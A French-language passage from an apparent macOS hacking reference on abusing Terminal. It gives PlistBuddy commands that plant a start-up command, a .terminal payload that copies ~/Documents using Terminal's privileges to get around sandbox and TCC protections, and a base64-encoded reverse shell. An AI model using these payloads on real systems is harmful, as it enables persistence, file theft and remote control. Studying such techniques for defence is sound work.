 Vous pouvez ajouter cela depuis le cli avec :
```bash
# Add
/usr/libexec/PlistBuddy -c "Set :\"Window Settings\":\"Basic\":\"CommandString\" 'touch /tmp/terminal-start-command'" $HOME/Library/Preferences/com.apple.Terminal.plist
/usr/libexec/PlistBuddy -c "Set :\"Window Settings\":\"Basic\":\"RunCommandAsShell\" 0" $HOME/Library/Preferences/com.apple.Terminal.plist

# Remove
/usr/libexec/PlistBuddy -c "Set :\"Window Settings\":\"Basic\":\"CommandString\" ''" $HOME/Library/Preferences/com.apple.Terminal.plist
```
### Scripts de terminal / Autres extensions de fichiers

- Utile pour contourner le sandbox : [✅](https://emojipedia.org/check-mark-button)
- Contournement TCC : [✅](https://emojipedia.org/check-mark-button)
- Utilisation du terminal pour avoir les permissions FDA de l'utilisateur qui l'utilise

#### Emplacement

- **Partout**
- **Déclencheur** : Ouvrir le terminal

#### Description & Exploitation

Si vous créez un [**`.terminal`** script](https://stackoverflow.com/questions/32086004/how-to-use-the-default-terminal-settings-when-opening-a-terminal-file-osx) et l'ouvrez, l'**application Terminal** sera automatiquement invoquée pour exécuter les commandes indiquées. Si l'application Terminal a des privilèges spéciaux (comme TCC), votre commande sera exécutée avec ces privilèges spéciaux.

Essayez-le avec :
```bash
# Prepare the payload
cat > /tmp/test.terminal << EOF
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>CommandString</key>
<string>mkdir /tmp/Documents; cp -r ~/Documents /tmp/Documents;</string>
<key>ProfileCurrentVersion</key>
<real>2.0600000000000001</real>
<key>RunCommandAsShell</key>
<false/>
<key>name</key>
<string>exploit</string>
<key>type</key>
<string>Window Settings</string>
</dict>
</plist>
EOF

# Trigger it
open /tmp/test.terminal

# Use something like the following for a reverse shell:
<string>echo -n "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYxOw==" | base64 -d | bash;</string>
```
Vous pouvez également utiliser les extensions **`.command`**, **`.tool`**, avec du contenu de scripts shell réguliers et ils seront également ouverts par Terminal.
